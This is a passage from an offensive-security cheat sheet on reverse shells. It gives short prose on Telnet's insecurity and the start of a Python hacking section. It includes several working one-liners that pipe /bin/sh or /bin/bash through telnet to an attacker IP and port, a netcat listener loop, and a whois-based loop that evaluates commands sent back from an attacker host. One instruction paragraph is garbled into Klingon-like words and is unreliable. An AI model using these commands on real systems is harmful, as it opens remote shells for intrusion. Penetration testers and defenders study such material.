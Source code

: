### Telnet Security Risks

Telnet is considered insecure because it transmits data, including usernames and passwords, in plain text. This makes it vulnerable to eavesdropping and man-in-the-middle attacks. It is recommended to use more secure protocols like SSH instead of Telnet.

### Telnet Alternatives

As mentioned earlier, SSH is a more secure alternative to Telnet. It encrypts the data transmitted between the client and the server, providing better security. Other alternatives include remote desktop protocols like RDP (Remote Desktop Protocol) and VNC (Virtual Network Computing).

### Conclusion

Telnet is a useful protocol for remote administration and troubleshooting, but it is not secure due to its lack of encryption. It is recommended to use more secure alternatives like SSH for remote connections.
```bash
telnet <ATTACKER-IP> <PORT> | /bin/sh #Blind
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|telnet <ATTACKER-IP> <PORT> >/tmp/f
telnet <ATTACKER-IP> <PORT> | /bin/bash | telnet <ATTACKER-IP> <PORT>
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | telnet <ATTACKER-IP> <PORT> 1>/tmp/bkpipe
```
## Whois

**Attacker**
```bash
while true; do nc -l <port>; done
```
**QaStaHvIS**:
QaStaHvIS vItlhutlh. ngeD enter vItlhutlh je CTRL+D vItlhutlh (STDIN jImej).
```bash
export X=Connected; while true; do X=`eval $(whois -h <IP> -p <Port> "Output: $X")`; sleep 1; done
```
## Python

### Introduction

Python is a versatile and powerful programming language that is widely used in the field of hacking. It provides a wide range of libraries and tools that can be leveraged for various hacking tasks. In this section, we will explore some of the key features and techniques of Python that are relevant to hacking.

### Python Shells

Python shells are interactive environments that allow you to execute Python code and get immediate feedback. They are particularly useful for testing and experimenting with code snippets. There are several Python shells available, including the standard Python shell, IPython, and Jupyter notebooks.

#### Standard Python Shell
